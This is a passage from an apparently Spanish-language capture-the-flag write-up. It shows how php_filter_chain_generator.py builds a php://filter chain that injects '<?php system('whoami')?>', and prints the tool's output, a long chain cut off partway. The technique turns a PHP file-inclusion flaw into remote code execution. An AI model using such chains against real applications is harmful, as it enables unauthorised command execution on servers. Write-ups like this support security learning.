 ![imagen2](/assets/images/Encoding/encoding2.png) 

Para esto podemos hacer uno de la herramienta `php_filter_chain_generator.py` que podemos encontramos su repositorio por github.

```shell
sudo python3 php_filter_chain_generator.py --chain "<?php system('whoami')?>"
[+] The following gadget chain will generate the following code : <?php system('whoami')?> (base64 value: PD9waHAgc3lzdGVtKCd3aG9hbWknKT8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|c<SNIP>
```
![imagen3](/assets/images/Encoding/encoding3.png)
